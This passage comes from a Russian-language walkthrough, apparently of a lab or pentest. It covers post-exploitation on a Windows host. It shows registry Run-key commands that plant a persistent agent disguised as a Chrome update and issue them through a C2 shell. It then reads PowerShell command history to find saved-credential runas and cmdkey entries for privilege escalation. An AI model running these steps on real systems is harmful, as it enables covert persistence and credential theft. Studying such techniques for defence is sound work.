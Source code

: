 ![[Pasted image 20241112200254.png]]

Ну вот собственно получили сессию, но как видно она сдохла. Проверим удаляется хоть наш агент после разрыва сессии или остается в той же директории. Выполним предыдущие шаги еще раз.

![[Pasted image 20241112200703.png]]

Да, все четко файл сохраняется. Остается сделать так, чтобы он автоматически запускался.

Я пробовал разные варианты например вот так

```
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v GoogleChromeUpdatex2 /t REG_SZ /d "c:\windows\tasks\x2.exe" /f

```

или

```
cmd.exe reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v GoogleChromeUpdatex2 /t REG_SZ /d "c:\windows\tasks\x2.exe" /f

```

Мимо. Шелл какой-то нехороший попался походу. Поэтому пришлось всё таки работать из под C2

```
shell reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v GoogleChromeUpdatex2 /t REG_SZ /d "c:\windows\tasks\x2.exe" /f

```

![[Pasted image 20241112202530.png]]

Прекрасно у нас есть закреп, теперь мы можем продолжать работу!

# Повышаем привилегии

Первое, что я сделал это прочитал историю команд в powershell

```
shell type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```


![[Pasted image 20241112203208.png]]

Как видим после разрыва сессии появляется новая, т.к пользователь входит в систему=) 

> [!NOTE]
> runas /savecred /user:Р°Р?Р?РёР?РёС?С'С?Р°С'Р?С? cmd
> 
> exit
> 
> cmdkey /list
> 
> cmdkey /delete:"Domain:interactive=TERMINAL\Р°Р?Р?РёР?РёС?С'С?Р°С'Р?С?"
